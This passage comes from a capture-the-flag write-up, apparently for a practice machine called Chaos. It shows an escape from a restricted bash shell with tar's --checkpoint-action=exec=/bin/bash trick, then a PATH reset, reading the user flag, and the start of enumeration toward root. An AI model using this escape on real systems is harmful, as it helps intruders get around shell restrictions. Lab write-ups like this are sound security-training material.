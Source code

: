 Using either [this Linux restricted shell bypass guide](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf) or [gtfobins](https://gtfobins.github.io/gtfobins/tar/) I’ll see that `tar` can break out of rbash.

```

www-data@chaos:/home$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
www-data@chaos:/home$ su - ayush
Password:
ayush@chaos:~$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
bash: groups: command not found
ayush@chaos:~$ cd ~
ayush@chaos:~$ ls
Command 'ls' is available in '/bin/ls'
The command could not be located because '/bin' is not included in the PATH environment variable.
ls: command not found
ayush@chaos:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
ayush@chaos:~$ ls
mail  user.txt

```

Now I have access to `user.txt`:

```

ayush@chaos:~$ cat user.txt
eef39126...

```

## Privesc: ayush –> root

### Enumeration

Looking around in ayush’’s home directory, I see the `.mozilla` directory:

```

ayush@chaos:~$ ls -la
total 40
drwx------ 6 ayush ayush 4096 May  8 06:57 .
drwxr-xr-x 4 root  root  4096 Oct 28  2018 ..
drwxr-xr-x 2 root  root  4096 Oct 28  2018 .app
-rw------- 1 root  root     0 Nov 24 23:57 .bash_history
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 May  8 06:57 .gnupg
drwx------ 3 ayush ayush 4096 May  7 05:11 mail
drwx------ 4 ayush ayush 4096 Sep 29  2018 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Oct 28  2018 user.txt

```
